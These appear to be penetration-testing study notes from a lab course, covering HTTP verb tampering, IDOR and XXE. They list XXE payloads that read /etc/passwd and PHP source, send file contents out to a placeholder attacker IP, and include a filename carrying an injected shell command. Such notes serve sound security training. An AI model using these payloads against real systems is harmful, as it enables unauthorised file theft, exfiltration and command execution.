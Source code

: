 # Web Application Attacks  

>My [Burp Suite Certified Practitioner Study material](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md) cover some of the same topics listed here, with more detail.  
>[HackTheBox Academy Web Attacks](https://academy.hackthebox.com/module/134/section/1158)  

## HTTP Verb Tampering

>HTTP has 9 different [verbs](https://academy.hackthebox.com/module/134/section/1159) that can be accepted as HTTP methods by web servers.  
>[HTTP Request Methods Mozilla Reference](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)  

### HTTP Methods  
```
GET
HEAD
POST
PUT
DELETE
CONNECT
OPTIONS
PATCH
TRACE
```  

>[Bypassing Basic Authentication](https://academy.hackthebox.com/module/134/section/1175)  


  
| **Command**   | **Description**   |
| --------------|-------------------|
| `-X OPTIONS` | Set HTTP Method with Curl |

## IDOR

`Identify IDORS`
- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

| **Command**   | **Description**   |
| --------------|-------------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

## XXE

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |

# Web Attack Exercises  

>Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.  

![web-attack-auth-bypass-header](/images/web-attack-auth-bypass-header.png)  

>To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./  

>Change the GET method to POST to [bypass security filters](https://academy.hackthebox.com/module/134/section/1178).  

![web-attack-Bypassing-Security-Filters](/images/web-attack-Bypassing-Security-Filters.png)  

